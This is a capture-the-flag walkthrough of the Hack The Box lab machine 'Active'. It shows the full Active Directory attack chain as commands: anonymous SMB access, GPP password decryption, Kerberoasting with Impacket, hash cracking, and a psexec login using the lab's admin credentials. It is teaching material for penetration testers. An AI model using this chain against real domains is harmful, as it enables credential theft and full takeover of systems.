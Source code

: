 # HTB - Active

##### Ip: 10.10.10.100
##### Name: Active
##### Rating: Easy

------------------------------------------------

![active_card](../assets/active_assets/active_card.png)

## Enumeration

As always, lets kick things off with an Nmap scan covering all TCP ports. Because I'm not worried about traffic or the 'noise' I'm making, I'm adding the `--min-rate 10000` attribute to speed things along:

```text
sudo nmap -p-  --min-rate 10000 10.10.10.100
```

As usual with Windows AD boxes, there's quite a few ports open here, with all the tell-tale signs of a Windows box (All those RPC ports), and an AD Domain Controller specifically (ports 53,88,389, etc). Here, I am scanning the discovered open ports from our `-p-` scan, and tacking on the `-sC` and `-sV` flags to enumerate versions and run common scripts against the ports:

```text
┌──(ryan㉿kali)-[~/HTB/Active]
└─$ sudo nmap -sC -sV -T4 10.10.10.100 -p 53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,47001,49152,49153,49154,49155,49157,49158,49165,49168,49174
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-21 13:34 CDT
Nmap scan report for 10.10.10.100
Host is up (0.072s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-04-21 18:34:13Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
49168/tcp open  msrpc         Microsoft Windows RPC
49174/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-04-21T18:35:09
|_  start_date: 2023-04-21T01:33:39
| smb2-security-mode: 
|   210: 
|_    Message signing enabled and required
|_clock-skew: -2s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 71.01 seconds
```
Because there doesn't appear to be any http or FTP ports open, let's begin by enumerating the SMB ports (139/445) to try and find something juicy.

But before we do that, let's go ahead and add active.htb to the /etc/hosts file:

`10.10.10.100  active.htb`

### SMB Enumeration

Lately, my favorite way to enumerate shares (and my ability to read them) is with CrackMapExec. CME is an extremely powerful tool with so many use cases, and is one of my go-to tools when working with active directory (Here is a great cheat sheet/wiki on the tool: https://wiki.porchetta.industries/other-gitbook. In this case I tried enumerating shares with user 'guest' and a blank password (this didn't work, the Guest user had been smartly disabled), as well as a blank user and blank pw, which worked!

![smb_enum](../assets/active_assets/smb_enum.png)

Ok cool, so looks like I have read access to the Replication share; let's check that out. For this I'm reverting back to the old-school smbclient tool to see what we can find. (CME has some cool ways to further check shares using the spider feature, but I find smbclient easier for cases like this)

Running: `smbclient //10.10.10.100/replication` and simply hitting enter in lieu of a password gets me into the share. After poking around a bit I found an interesting file called Groups.xml, and used `get Groups.xml` to pull the file back to my machine. If on the fly, you can always use `more Groups.xml` which essentially just lets you read the file stored in temporary memory in a vim-like setting, but I prefer to store files like this locally, in case I need to revisit them.

This file proves to be super interesting!

![gpp_pw](../assets/active_assets/gpp_pw.png)

Here we have what appear to be a username SVC_TGS as well as a password. These Groups.xml files can be a goldmine for penetration testers because they can store extremely sensitive data (like PWs) as a Group Policy Preference (GPP) file, which can be decrypted using various tools. 

### Decrypting the PW Hash

Armed with this knowledge we can use the built in Kali tool gpp-decrypt:

```text
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```
![gpp_decrypt](../assets/active_assets/gpp_decrypt.png)

Nice! We were very easily able to crack this password! Seems we may now have some credentials, 
`SVC_TGS:GPPstillStandingStrong2k18`, lets see what we can do with them. 

### Kerberoasting

Going with a hunch based on the username (SVC_TGS or ticket-granting service), I'm going to try Kerberoasting first, and more specifically, because this is a machine account (SVC) I'm going to take a look at SPNs.

Using Impacket's tool GetUserSPNs I can run the following:

`impacket-GetUserSPNs -dc-ip 10.10.10.100 -request active.htb/SVC_TGS`

for an easy win at kerberoasting! Furthermore, this appears to be the administrator hash; we hopefully can use this cracked credential to login to the target with admin access. 

![kerberoast](../assets/active_assets/kerberoast.png)

### Cracking the Hash With JTR

From here I will simply copy the hash to a text file named kerb_hash, and let John The Ripper do the work for me to crack it:

Most excellent! John was able to crack the hash quite quickly:

![jtr_crack](../assets/active_assets/jtr_crack.png)

### Logging In

So now let's try to login with our newly found admin credentials of administrator:Ticketmaster1968.

Once again, Impacket to the rescue; let's try using psexec to login:

```text
impacket-psexec active.htb/administrator:Ticketmaster1968@10.10.10.100
```

![login_psexec](../assets/active_assets/login_psexec.png)

And since I am logging in as administrator I can grab both flags on the SVC_TGS and Administrator desktops respectively.

![user_txt](../assets/active_assets/user_txt.png)

![root_txt](../assets/active_assets/root_txt.png)

And that's that! This was a great beginner friendly Active Directory box illustrating some key concepts needed to successfully enumerate and attack enterprise environments. 

### Something Extra

I recently found out about this and found it super interesting, so thought I would share here as well- Recall back to the screen shot after logging in as administrator, where I ran the `whoami` command and got a response back as `nt authority\system`.

Look what happens when I login using the very same credentials using a tool like wmiexec:

![wmiexec_login](../assets/active_assets/wmiexec_login.png)

Running `whoami` with this tool only lists me as active/administrator, whereas psexec will auto-elevate privileges to that of nt/system. For all intents and purposes my privileges are the same here, but for those of us that want to document the highest level of privileges (say for an examination, or to include in a report), psexec offers an easy win in that regard. Likely superficial, but interesting none-the-less. 

### Key Takeaways

- SMB can often contain a plethora of 'low hanging fruit' like we found here today. I was able to go from anonymous access to an SMB share to fully compromising the machine (or domain in this AD example) without anything too tricky, technically speaking. Sensitive information like credentials being stored in an open share like this is obviously not a good idea.

- Kerberoasting is an invaluable part of any attacker's arsenal. Learning about a few of the biggest attacks/concepts (golden/ silver tickets, SPNs, AS-REPs, etc) will pay dividends later on. 

- Similarly, Impacket and CrackMapExec are about as comprehensive and valuable tools as anyone could hope for when it comes to attacking Active Directory. These are huge tools that offer so much, and I am still only beginning to scratch there surface of what they can offer. Getting to know your tools is important in any line of work, but especially in pentesting. These are two worth getting to know well, in my opinion. 

Thanks for following along!

-Ryan

------------------------------------------------------------------------
